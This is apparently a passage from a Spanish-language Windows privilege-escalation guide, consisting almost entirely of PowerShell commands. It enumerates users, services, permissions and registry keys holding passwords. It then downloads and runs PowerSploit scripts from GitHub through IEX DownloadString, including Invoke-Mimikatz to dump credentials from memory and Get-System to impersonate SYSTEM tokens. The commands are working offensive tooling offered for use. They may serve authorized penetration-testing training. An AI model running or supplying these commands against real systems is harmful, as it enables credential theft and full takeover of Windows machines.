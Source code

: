```powershell
# windows_enum.ps1 - Script de enumeración para Windows

# Información del sistema
systeminfo
whoami /all
net user
net localgroup administrators

# Procesos y servicios
tasklist /fo table
sc query state= all

# Permisos de archivos y directorios
icacls "C:\Program Files"
accesschk.exe -uwcqv "Authenticated Users" *

# Variables de entorno
set

# Servicios vulnerables
sc query state= all | findstr "SERVICE_NAME"
for /f "tokens=2 delims= " %i in ('sc query state^= all ^| findstr "SERVICE_NAME"') do @echo %i & sc qc %i | findstr "BINARY_PATH_NAME"

# Programas instalados
wmic product get name,version
dir "C:\Program Files"
dir "C:\Program Files (x86)"

# Tareas programadas
schtasks /query /fo table /v

# Registro de Windows
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### 2. PowerSploit y PowerShell

```powershell
# Descargar PowerSploit
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# Ejecutar PowerUp
Invoke-AllChecks

# Buscar credenciales en memoria
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds

# Token impersonation
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/Get-System.ps1')
Get-System
```
